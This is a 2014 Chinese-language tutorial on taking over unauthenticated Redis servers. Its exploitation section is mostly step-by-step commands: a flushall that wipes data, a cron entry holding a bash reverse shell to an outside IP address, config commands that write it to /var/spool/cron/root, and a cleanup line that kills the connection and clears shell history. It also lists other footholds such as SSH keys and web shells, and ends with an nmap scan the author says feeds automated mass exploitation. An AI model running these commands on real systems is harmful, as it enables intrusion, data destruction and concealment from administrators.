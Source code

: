 ```yaml
---
description: Redis常见的安全问题及利用方式，可以写任意文件并拿到服务器SHELL权限，如何自查Redis匿名访问问题。
---
```

# Redis GET SHELL

Feei <feei#feei.cn> 2014

## 1. 漏洞背景
默认Redis安装完成后只能本机访问且没有密码的，一般场景下Redis是需要被其它服务器访问的，所以就会将`/etc/redis.conf`中的`bind-ip`改为`0.0.0.0`，由此导致外网可以匿名访问Redis（不需要密码）。

外网可以访问导致的问题是Redis数据外泄，除此之外若使用root账户启动的Redis则会造成GET SHELL。

## 2. 利用方式
通过Redis的`config`命令，可以写入任意文件，权限足够的情况下可写入定时任务反弹得到SHELL。

**连上一台Redis**
```bash
redis-cli -h your_redis_server
```

**保持写入的干净，清除原有数据（如果是其它人机器，不建议这么做）**
```bash
flushall
```

**设置key(0)为bash反弹shell的脚本，每分钟执行一次，在自己服务器上监听7890端口(nc -vvl 7890)**
```bash
set 0 "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/103.21.140.84/7890 0>&1\n\n"
```

**设置保存的位置**
```bash
config set dir /var/spool/cron/ 
```

**设置保存的文件名**
```bash
config set dbfilename root
```

**保存**
```bash
save
```

至此就会在目标Redis服务器产生一个Cron文件`/var/spool/cron/root`，如果目标服务器Crond服务没有关闭的话，该文件就会每分钟执行一次导致SHELL，此时只需要在自己的服务器上监听7890端口，即可控制目标服务器。

退出目标服务器时，为了防止Cron再次连接，可以用如下命令退出

```bash
ps aux | grep 7890 | awk '{ print $2 }'|xargs kill;rm -f /var/spool/cron/root;history -c && exit
```

## 3. 利用姿势

除了可以直接写定时任务拿到SHELL，还可以有多种姿势。

- 写cron反弹一个shell
- 写`~/.ssh/authorized_keys`，使用密钥直接登录
- 找到web目录的绝对路径，直接写web shell
- 写初始化脚本`/etc/profile.d/`
- 主从模式利用

## 4. 漏洞自测
通过nmap扫描内网网段的redis匿名访问服务。（当然可以扫描外网）
```bash
nmap -p6379 10.11.0/16 --script redis-info
```
就是这个洞让我wooyun排名10天前进10页，当然是加到我的扫描器内（Vulture），自动化利用，每天就看下报告即可。
